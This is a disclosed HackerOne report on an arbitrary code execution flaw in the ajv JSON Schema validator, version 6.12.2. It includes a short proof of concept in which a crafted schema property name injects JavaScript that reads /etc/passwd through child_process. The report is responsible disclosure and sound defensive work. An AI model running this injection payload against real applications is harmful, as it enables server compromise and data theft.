 # Arbitrary code execution via untrusted schemas in ajv

## Report Details
- **Report ID**: 897974
- **URL**: https://hackerone.com/reports/897974
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-06-14T13:42:42.772Z
- **Disclosed**: 2020-08-14T17:21:21.521Z

## Reporter
- **Username**: chalker
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report an arbitrary code execution vulnerability in `ajv`.
It allows to execute arbitrary code if an attacker-controlled schema is passed to the module.

I have confirmed that this should be treated as a security issue.
I labeled this as low because this is an unusual scenario, usually schemas are static.

# Module

**module name:** `ajv`
**version:** 6.12.2
**npm page:** `https://www.npmjs.com/package/ajv`

## Module Description

> The fastest JSON Schema validator for Node.js and browser. Supports draft-04/06/07.

## Module Stats

29 351 921 weekly downloads

# Vulnerability

## Vulnerability Description

ajv builds code in an unsafe way and applies regex transformations over it after data from a potentially untrusted JSON schema has been inserted in it, resulting in arbitrary code execution from an otherwise valid schema.

## Steps To Reproduce:

```js
const ajv = require('ajv')({})
const payload = "(console.log(process.mainModule.require(`child_process`).execSync(`cat /etc/passwd`).toString(`utf-8`)),process.exit(0))"
const schemaJSON =`
{
  "properties": {
    "){}}};${payload};return validate//": {
      "allOf": [{}]
    }
  }
}
`
ajv.compile(JSON.parse(schemaJSON))
```
Gist: https://gist.github.com/ChALkeR/a06ff0a76b3830205d3d4850068751f0

# Wrap up

- I contacted the maintainer to let them know: Y
- I opened an issue in the related repository: N

## Impact

Executing arbitrary js code and/or shell commands if the schema is attacker-controlled (e.g. user supplies JSON with a schema).

## Attachments
No attachments
